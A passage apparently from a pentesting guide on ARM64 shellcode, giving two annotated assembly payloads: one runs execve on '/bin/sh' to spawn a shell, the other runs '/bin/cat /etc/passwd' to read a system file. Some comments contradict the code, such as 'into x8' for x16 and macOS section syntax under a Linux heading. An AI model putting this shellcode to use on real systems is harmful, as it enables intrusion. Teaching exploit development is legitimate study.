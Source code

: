 ```armasm

```
{% endtab %}

{% tab title="with adr for linux" %}
```armasm
; From https://8ksec.io/arm64-reversing-and-exploitation-part-5-writing-shellcode-8ksec-blogs/
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:    
    adr  x0, sh_path  ; This is the address of "/bin/sh".
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.    
    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
{% endtab %}
{% endtabs %}

#### Read with cat

The goal is to execute `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, so the second argument (x1) is an array of params (which in memory these means a stack of the addresses).

```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
    ; Prepare the arguments for the execve syscall
    sub sp, sp, #48        ; Allocate space on the stack
    mov x1, sp             ; x1 will hold the address of the argument array
    adr x0, cat_path
    str x0, [x1]           ; Store the address of "/bin/cat" as the first argument
    adr x0, passwd_path    ; Get the address of "/etc/passwd"
    str x0, [x1, #8]       ; Store the address of "/etc/passwd" as the second argument
    str xzr, [x1, #16]     ; Store NULL as the third argument (end of arguments)
    
    adr x0, cat_path
    mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
    mov x16, #59           ; Load the syscall number for execve (59) into x8
    svc 0                  ; Make the syscall


cat_path: .asciz "/bin/cat"
.align 2
passwd_path: .asciz "/etc/passwd"
```
